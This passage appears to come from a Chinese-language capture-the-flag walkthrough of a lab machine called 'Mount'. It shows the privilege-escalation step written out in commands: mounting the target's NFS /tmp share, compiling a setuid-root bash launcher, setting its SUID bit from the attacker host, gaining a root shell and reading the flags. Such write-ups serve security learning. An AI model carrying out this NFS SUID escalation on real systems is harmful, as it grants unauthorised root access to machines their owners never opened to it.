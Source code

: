 挂载新的/tmp共享：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo mkdir -p /mnt/tmp_mount

┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo mount -t nfs 192.168.205.173:/tmp /mnt/tmp_mount
```

在目标系统上创建提权程序：

```bash
ll104567@Mount:/tmp$ cat > /tmp/root_shell.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(void){
    setuid(0); 
    setgid(0); 
    system("/bin/bash -p");
    return 0;
}
EOF

ll104567@Mount:/tmp$ gcc /tmp/root_shell.c -o /tmp/root_shell
```

在Kali上设置root权限和SUID位：

```bash
┌──(kali㉿kali)-[/mnt/tmp_mount]
└─$ sudo chown root:root /mnt/tmp_mount/root_shell

┌──(kali㉿kali)-[/mnt/tmp_mount]
└─$ sudo chmod 4755 /mnt/tmp_mount/root_shell
```

# 五、获取Root权限

执行提权程序获得root shell：

```bash
ll104567@Mount:/tmp$ ls -al root_shell
-rwsr-xr-x  1 root     root     16720 Sep  9 00:12 root_shell

ll104567@Mount:/tmp$ ./root_shell 
root@Mount:/tmp# id
uid=0(root) gid=0(root) groups=0(root),6666(ll104567)
```

获取flag：

```bash
root@Mount:/tmp# cat /root/root.txt /home/guest/user.txt 
flag{root-a8a78d0ff555c931f045b6f448129846}
flag{user-60b725f10c9c85c70d97880dfe8191b3}
```
